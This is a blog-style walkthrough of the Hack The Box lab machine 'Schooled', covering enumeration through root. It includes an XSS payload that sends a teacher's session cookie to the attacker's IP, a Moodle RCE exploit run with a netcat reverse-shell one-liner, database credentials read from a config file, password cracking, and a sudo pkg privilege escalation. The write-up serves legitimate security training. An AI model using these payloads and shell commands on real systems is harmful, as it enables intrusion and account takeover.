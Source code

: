 ```yaml
---
layout: post
title: Schooled
published: true
---
```


**Schooled is a medium machine from Hack The Box.**

### Enumeration

This machine is running FreeBSD according to Hack the Box. I'll launch an `nmap` scan to start enumerating services.

`nmap -sC -sV -vv -p- -oA enum/nmap_allports 10.10.10.234`

```
PORT      STATE SERVICE REASON  VERSION
22/tcp    open  ssh     syn-ack OpenSSH 7.9 (FreeBSD 20200214; protocol 2.0)
| ssh-hostkey: 
|   2048 1d:69:83:78:fc:91:f8:19:c8:75:a7:1e:76:45:05:dc (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDGY8PnQ2GFk9RrUQ82xGivlyXZ8k99JFZAFlNqJIftRHSGWL3HsfaO08lnGCrqVxj3235k0L74SJAqWfJs1ykTRipcZpsI5QvwYPyqpisMgH/SdCH1wehZpgaXRwdn52ob9+GxZ6qjqIon0cH0XR1hkNIGdbTt4RRMy+IfynzVuomW2mUi0tnnXU69pcyYNMShND4PqxVDKZHwUyeDIiYVBvnL5P9qEh0Q/t0HKWFHQ8otwWEpL3jnn774RFP9ETtZsJ/xosuhty02yIZuP6vqtbWfVqcqM8v1R3jm/xjXfXxiflGO09KO2aePAbEhNEofb7V/f33dRQDv5mr9ceZ1
|   256 e9:b2:d2:23:9d:cf:0e:63:e0:6d:b9:b1:a6:86:93:38 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHc4TgrG+CyKqaIsk10XmAhUKULXK6Bq3bHHeJiWuBmdGS1k3Fp60OoVFdDKQj9aihkaUmbJ8fkG6dp07bm8IcM=
|   256 7f:51:88:f7:3c:dd:77:5e:ba:25:4d:4c:09:25:ea:1f (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPWIP8gV7SGQNoODfYq9qg1k3j6ZZg+1L9zIU9FrHPaf
80/tcp    open  http    syn-ack Apache httpd 2.4.46 ((FreeBSD) PHP/7.4.15)
|_http-favicon: Unknown favicon MD5: 460AF0375ECB7C08C3AE0B6E0B82D717
| http-methods: 
|   Supported Methods: HEAD GET POST OPTIONS TRACE
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.46 (FreeBSD) PHP/7.4.15
|_http-title: Schooled - A new kind of educational institute
33060/tcp open  mysqlx? syn-ack
| fingerprint-strings: 
|   DNSStatusRequestTCP, LDAPSearchReq, NotesRPC, SSLSessionReq, TLSSessionReq, X11Probe, afp: 
|     Invalid message"
|     HY000
|   LDAPBindReq: 
|     *Parse error unserializing protobuf message"
|     HY000
|   oracle-tns: 
|     Invalid message-frame."
|_    HY000
```

SSH and HTTP are open, on 22 and 80, and also what could be a MySQL server. I'll take a look at the webpage first.

While I check out the HTTP side of things, I'll also start a scan of possible subdirectories with `gobuster`:

`gobuster dir -u 10.10.10.234 -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt -x php,html -o enum/gobuster_raft_small`

Here's the home page. 

![Pasted image 20210729105052](https://user-images.githubusercontent.com/60187707/136669208-180406cf-b58b-46d6-87b3-b7e51e2000e7.png)

Outside of some possible names of teachers we could use to make a list of users, there's not much exciting here. As I keep poking around, I'll run another scan for subdomains with `wfuzz`:

`wfuzz -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u 'http://schooled.htb' -H "Host: FUZZ.schooled.htb" --hl 461`

After a little bit, I get a hit on a valid subdomain, `moodle.schooled.htb`. I'll add that to my `/etc/hosts` file and go digging.

![Pasted image 20210729130906](https://user-images.githubusercontent.com/60187707/136669344-dfb738ae-2231-4f8f-8b2e-8fb4b6b979a8.png)

---

#### moodle.schooled.htb

![Pasted image 20210729130946](https://user-images.githubusercontent.com/60187707/136669356-7f803dea-af8d-4507-963f-c494daae9e62.png)

Moodle is a learning management system. Basically a course repo. Trying to open the course pages but I think the site wants me to be logged in. So I'll create an account.

![Pasted image 20210729131146](https://user-images.githubusercontent.com/60187707/136669427-7b634b09-02c0-4b74-a2b3-97c8a8f827c1.png)

Tried the email domain `@schooled.htb` but the site wants me to use `@student.schooled.htb`. I guess I will.

![Pasted image 20210729131526](https://user-images.githubusercontent.com/60187707/136669434-c12efab8-a13b-4162-a952-795c6df34564.png)

Looks like I'm a student at moodle. What else can I do?

![Pasted image 20210729131621](https://user-images.githubusercontent.com/60187707/136669497-df266d02-c248-431c-88e7-c6fc71223901.png)

I can enroll in a few different courses. Looking into the Mathematics course, taught by Manuel Phillips,  I see an announcement from the teacher.

![image](https://user-images.githubusercontent.com/60187707/136669723-cbacd368-36fa-4f38-9047-f909d7b5000c.png)

After some research, I learn that a specific field in a user's account preferences is vulnerable to XSS. That field is the "MoodleNet profile" field. I suppose if Manuel is going to be checking students' MoodleNet profiles, I could get him to click on a malicious link. I know the site is tracking cookies, so maybe I could steal his cookie to impersonate him.

I set my MoodleNet profile to this payload, and start a webserver (`sudo python -m SimpleHTTPServer 8080`) to steal the cookie.

`<img src=x onerror=this.src='http://10.10.14.22/?c='+document.cookie>`

![image](https://user-images.githubusercontent.com/60187707/136669817-e244b64e-80df-4a9e-ab64-daf36d5799cd.png)

Just like that, I start getting hits and cookies. 

![Pasted image 20210807102834](https://user-images.githubusercontent.com/60187707/136669835-ce302fe3-8d22-435e-b56b-c64f67b90334.png)

Pop that cookie into cookie editor in my browser, and I've confirmed I can impersonate Manuel.

![Pasted image 20210729163153](https://user-images.githubusercontent.com/60187707/136669865-9087b5e2-8e4b-44ba-95f2-0217ade7c514.png)

In my searching for vulnerabilities, I found an [exploit](https://github.com/lanzt/CVE-2020-14321) for RCE, and all I need is a cookie. The exploit will allow me to elevate my privileges in Moodle from teacher to manager, and then use a malicious plugin to execute arbitrary commands.

Verifying that it works:

`python3 moodle.py http://moodle.schooled.htb/moodle --cookie eglbg3rlpopednjfhnndioq5hk`

![Pasted image 20210729164348](https://user-images.githubusercontent.com/60187707/136669985-ff19db7c-c228-420a-9a9a-a957ae676f91.png)

Now that I know I have RCE, it's time to pop a shell. I'll start a netcat listener(`nc -lvp 4444`), and run a bash payload:

`python3 moodle.py http://moodle.schooled.htb/moodle --cookie 3ksqqlte3il6f178cibs1tg9gk -c "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.22 4444 >/tmp/f"`

On as `www`:

![Pasted image 20210807102943](https://user-images.githubusercontent.com/60187707/136670054-dde0b2a2-be07-41c7-9f85-911f8c65e3cc.png)

---

### Privilege Escalation

Best place to start enumerating the system is going to be Moodle config files.

`cat /usr/local/www/apache24/moodle/config.php`

```
<?php  // Moodle configuration file

unset($CFG);
global $CFG;
$CFG = new stdClass();

$CFG->dbtype    = 'mysqli';
$CFG->dblibrary = 'native';
$CFG->dbhost    = 'localhost';
$CFG->dbname    = 'moodle';
$CFG->dbuser    = 'moodle';
$CFG->dbpass    = 'PlaybookMaster2020';
$CFG->prefix    = 'mdl_';
$CFG->dboptions = array (
  'dbpersist' => 0,
  'dbport' => 3306,
  'dbsocket' => '',
  'dbcollation' => 'utf8_unicode_ci',
);

$CFG->wwwroot   = 'http://moodle.schooled.htb/moodle';
$CFG->dataroot  = '/usr/local/www/apache24/moodledata';
$CFG->admin     = 'admin';

$CFG->directorypermissions = 0777;

require_once(__DIR__ . '/lib/setup.php');

// There is no php closing tag in this file,
// it is intentional because it prevents trailing whitespace problems!
```

SQL creds! `moodle:PlaybookMaster2020`

Logging into the `mysql` service: `mysql -u moodle -p PlaybookMaster2020`

`use moodle;`

`select * from mdl_user;`

![Pasted image 20210807111637](https://user-images.githubusercontent.com/60187707/136670224-e680ca45-cada-4d35-ae7e-7596eb30652f.png)

Found a hash for user `admin`. In looking into `/etc/passwd` I see that `jamie` is the only user with login enabled.

![Pasted image 20210807111906](https://user-images.githubusercontent.com/60187707/136670256-deb772d0-3c47-4293-a963-d440b9dd4799.png)

Just a guess, but I bet this hash is his password. Let's see if my friend `john` can crack it:

`john jamie.hash --wordlist=/usr/share/wordlists/rockyou.txt`

![Pasted image 20210807111746](https://user-images.githubusercontent.com/60187707/136670275-bd25207c-50a5-4cd1-ae69-ae1aea1f21cd.png)

Indeed, he can. Now I can SSH in as `jamie: `ssh jamie@10.10.10.234`

![Pasted image 20210807111952](https://user-images.githubusercontent.com/60187707/136670295-4e34a835-3291-4b8b-b550-552cac776085.png)

Now that I have a real user, I can start checking permissions.

![Pasted image 20210807112023](https://user-images.githubusercontent.com/60187707/136670331-8067b8cf-4a98-4039-9584-8c79e034fb6c.png)

It appears that I have a couple `pkg` commands that I can run as the root user, without a password. Let's see what [GTOFOBins](https://gtfobins.github.io/gtfobins/pkg/#sudo) has on `pkg`.

The first step is creating a `bash` script to run, then creating a zipped package of that script. Once I get that on the victim machine, I can use `pkg install` to execute it.

![Pasted image 20210807120943](https://user-images.githubusercontent.com/60187707/136670420-73d171c9-ee32-4f6d-b98c-22ec9c56a6c6.png)

I serve that zip file on a Python webserver, and then use `curl http://10.10.14.22/x-1.0.txz -x x-1.0.txz` to download it. With that done, I can run the final command.

`sudo /usr/sbin/pkg install -y --no-repo-update ./x-1.0.txz`

![Pasted image 20210807121122](https://user-images.githubusercontent.com/60187707/136670445-7b8c0920-69ff-41ba-9e22-9f571e1bfd71.png)

My package set the SUID bit on `/bin/bash` but, because it's symlinked to `/usr/local/bin/bash`, that's where the SUID ends up. I use that to drop in a root shell and Schooled has been owned.

